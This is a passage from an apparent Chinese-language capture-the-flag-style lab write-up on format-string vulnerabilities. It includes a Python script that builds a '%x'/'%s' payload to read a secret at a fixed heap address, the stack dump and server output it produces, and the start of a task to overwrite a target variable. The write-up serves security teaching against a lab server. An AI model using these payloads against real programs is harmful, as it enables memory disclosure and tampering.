 可以看到41414141，这个就是我们写的AAAA

把放到1.txt里面，输入命令`grep -o '_' 1.txt | wc - l`

1.txt：

```
AAAA_11223344_1000_8049db5_80e5320_80e61c0_ffffd300_ffffd228_80e62d4_80e5000_ffffd2c8_8049f7e_ffffd300_0_64_8049f47_80e5320_4ff_ffffd3dd_ffffd300_80e5320_80e9720_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_e2fa4d00_80e5000_80e5000_ffffd8e8_8049eff_ffffd300_dd_5dc_80e5320_0_0_0_ffffd9b4_0_0_0_dd_41414141
```

64个%x

## Task 2.B: Heap Data

已知秘密信息地址为0x080b4008

我们输入的字符串最开始应该是秘密信息的地址，然后用63个%x让指针移动，64就是秘密信息的位置，使用%s打印

```python
#!/usr/bin/python3

import sys
N = 1500
content = bytearray(0x0 for i in range(N)) #填充0
secret  = 0x080b4008 #秘密信息的地址
content[0:4]  =  (secret).to_bytes(4,byteorder='little')#将最开始的内容改为秘密信息的地址
data = "%x"*63+"\nmessage:%s"#偏移
data = (data).encode('latin-1')
content[4:4+len(data)] = data
with open('bad', 'wb') as f:
  f.write(content)

```

回显

```
server-10.9.0.5 |@
                 1122334410008049db580e532080e61c0ffffd300ffffd22880e62d480e5000ffffd2c88049f7effffd3000648049f4780e53205dc5dcffffd300ffffd30080e97200000000000000000000000000151470080e500080e5000ffffd8e88049effffffd3005dc5dc80e5320000ffffd9b40005dc
server-10.9.0.5 | message:A secret message
```

# Task 3: Modifying the Server Program’s Memory

修改服务器程序中定义的目标变量的值(继续使用10.9.0.5)。Target 的原始值是0x11223344

## Task 3.A:

Change the value to a different value. In this sub-task, we need to change the content of
the target variable to something else. Your task is considered as a success if you can change it to a
different value, regardless of what value it may be. The address of the target variable can be found
from the server printout
